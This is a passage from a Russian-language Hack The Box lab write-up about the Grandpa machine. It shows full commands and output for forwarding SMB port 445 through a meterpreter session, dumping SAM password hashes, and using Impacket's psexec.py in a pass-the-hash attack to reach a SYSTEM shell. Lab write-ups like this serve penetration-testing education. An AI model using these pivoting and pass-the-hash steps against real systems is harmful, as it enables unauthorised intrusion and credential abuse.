 ## Проброс портов до локального сервиса

На сладкое рассмотрим еще один кейс перенаправления трафика.

Файрвол на Grandpa никто не отключал, поэтому мы не можем так просто получить доступ к его SMB-ресурсу извне (в списке открытых портов Nmap не было 445-го, как ты помнишь). Однако вот что мы можем сделать: с помощью meterpreter пробросить свой локальный порт `445` с Kali до машины Grandpa, вытащив таким образом сервис SMB последнего на поверхность.

```
meterpreter > portfwd add -l 445 -p 445 -r 127.0.0.1
[*] Local TCP relay created: :445 <-> 127.0.0.1:445
```

Этой командой я говорю, что локальный порт `445` (флаг `-l`) машины атакующего должен ассоциироваться с открытой сессией meterpreter, а все, что в него попадает, должно быть передано на удаленный порт `445` (флаг `-p`) машины-жертвы (флаг `-r`) по интерфейсу `127.0.0.1` (так как SMB доступен локально на Windows Server). Если повторно запустить Nmap и просканировать 445-й порт (заметь, уже на локалхосте) — о, чудо, он окажется открытым!

[![nmap-grandpa-smb.png](/assets/images/htb/machines/grandparents/nmap-grandpa-smb.png)](/assets/images/htb/machines/grandparents/nmap-grandpa-smb.png)
{:.center-image}

То есть поверх уже настроенного в Metasploit маршрута мы пробросили порт `445` с машины атакующего до порта `445` на ВМ Grandpa, который прежде был доступен только на loopback-интерфейсе из-за правил файрвола. В честь этого завершим обновление нашей схемы взаимодействия, добавив на нее проброс 445-го порта.

[![network-pivot-portfwd.png](/assets/images/htb/machines/grandparents/network-pivot-portfwd.png)](/assets/images/htb/machines/grandparents/network-pivot-portfwd.png)
{:.center-image}

### Pass-the-Hash

Так как это Windows Server 2003, тебе не составит большого труда вскрыть шару SMB, ведь здесь все еще актуальны LM-хеши для хранения паролей. А они ломаются на раз. Однако я пойду по еще более простому пути.

[![msf-pivot-grandpa-hashdump.png](/assets/images/htb/machines/grandparents/msf-pivot-grandpa-hashdump.png)](/assets/images/htb/machines/grandparents/msf-pivot-grandpa-hashdump.png)
{:.center-image}

Благодаря `hashdump` я могу сдампить пару хешей `LMHASH:NTHASH` из базы данных SAM и провести атаку Pass-the-Hash с помощью внешней утилиты `psexec.py`, входящей в состав тулкита [Impacket](https://github.com/SecureAuthCorp/impacket).

```
root@kali:~# ./psexec.py -hashes '0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548' Administrator@127.0.0.1
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share C$
[*] Uploading file NNDHtRms.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service tWni on 127.0.0.1.....
[*] Starting service tWni.....
[!] Press help for extra shell commands
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
nt authority\system
```


[//]: # (2019-12-26)